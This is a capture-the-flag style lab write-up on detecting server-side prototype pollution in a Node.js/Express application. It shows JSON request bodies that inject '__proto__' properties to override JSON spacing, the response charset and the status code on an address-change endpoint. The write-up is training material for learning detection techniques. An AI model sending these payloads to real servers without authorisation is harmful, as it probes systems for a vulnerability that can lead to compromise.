





# Detecting server-side prototype pollution without polluted property reflection
# Objective
This lab is built on Node.js and the Express framework. It is vulnerable to server-side prototype pollution because it unsafely merges user-controllable input into a server-side JavaScript object.

To solve the lab, confirm the vulnerability by polluting `Object.prototype` in a way that triggers a noticeable but non-destructive change in the server's behavior. As this lab is designed to help you practice non-destructive detection techniques, you don't need to progress to exploitation.

You can log in to your own account with the following credentials: `wiener:peter`


# Solution
## Analysis
Endpoint `/my-account/change-address` allows given user to specify his billing and delivery address.

||
|:--:| 
| *Change billing and delivery address information request* |

## Exploitation
The following payloads can be used to test for potential server side prototype pollution:

- JSON spaces override
```json
{
  "address_line_1": "Wiener HQ",
  "address_line_2": "One Wiener Way",
  "city": "Wienerville",
  "postcode": "BU1 1RP",
  "country": "UK",
  "sessionId": "jMHEAuCX6uUeZUs4ZoXMD59bYgjMhVnq",
  "__proto__": {
    "json spaces": " "
  }
}
```

- Charset override
```json
{
  "address_line_1": "Wiener HQ",
  "address_line_2": "One Wiener Way",
  "city": "Wienerville",
  "postcode": "BU1 1RP",
  "country": "+AGYAbwBv-",
  "sessionId": "jMHEAuCX6uUeZUs4ZoXMD59bYgjMhVnq",
  "__proto__": {
    "content-type": "application/json; charset=utf-7"
  }
}
```

||
|:--:| 
| *Prototype pollution via charset override* |
||
| *Prototype pollution via charset override - payload was correctly decoded* |

- Status code override
```json
{
  "address_line_1": "Wiener HQ",
  "address_line_2": "One Wiener Way",
  "city": "Wienerville",
  "postcode": "BU1 1RP",
  "country": "UK",
  "sessionId": "jMHEAuCX6uUeZUs4ZoXMD59bYgjMhVnq",
  "__proto__": {
    "status": 499
  }
}
```
||
|:--:| 
| *Prototype pollution via status code override* |
||
| *Prototype pollution via status code override - Error - custom status code returned* |